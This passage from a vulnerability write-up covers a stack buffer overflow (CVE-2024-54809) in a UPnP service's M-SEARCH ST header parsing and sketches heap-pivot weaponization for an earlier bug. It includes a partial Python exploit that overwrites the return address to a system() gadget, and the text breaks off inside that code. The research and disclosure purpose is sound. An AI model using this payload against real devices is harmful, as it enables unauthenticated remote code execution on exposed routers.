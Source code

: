 ![](/assets/posts/2025-03-25/14.png)
![](/assets/posts/2025-03-25/15.png)

**Idea for full weaponization.** If null‑byte appendage constraints could be bypassed, a **two‑byte overwrite** may reach a `pop;pop;pop;ret` to pivot into **heap** (executable) where shellcode can be staged via request headers, then hit via controlled misalignment / grooming.

---

<a name="cve-2024-54809"></a>
### MSEARCH ST BOF (CVE-2024-54809)

**Summary.** Stack‑based BOF in UPnP **`parse_st`** (0x23240) handling **M‑SEARCH ST** header. An arithmetic error produces an **over‑large `n`** passed to `strncpy`, overflowing a stack buffer and enabling **RCE**.

![](/assets/posts/2025-03-25/16.png)

**Attack vector.** Oversized **ST** header inside **M‑SEARCH**. **Unauthenticated**, WAN‑exposed.

**Exploitation.** Overwrite saved LR/PC, return to **0x2d4dc** (`mov r0, r5 ; bl system`) with controlled argument.

```py
payload = b'Z' * 284
payload += b'A' * 4  # R4
payload += b'B' * 4  # R5 - command str will go here
payload += b'C' * 4  # R6
payload += b'D' * 4  # R7
payload += b'E' * 4  # R8
payload += b'\xdc\xd4\x02'  # 0x2d4dc mov r0, r5 ; bl system

def send_msearch_pwn(target_port=1900):
    global payload
    # Space nopsled might shift depending on len(cmd) (+1 for null)
    ret = p32(0xbefff540 + (len(cmd.encode()) * 3) + 1)
    payload = payload.replace(b'BBBB', ret)

    message = (
        b'M-SEARCH * HTTP/1.1\r\n'
        b'HOST:239.255.255.250:1900\r\n'
        b'MAN:"ssdp:discover"\r\n'
        b'MX:2\r\n'
```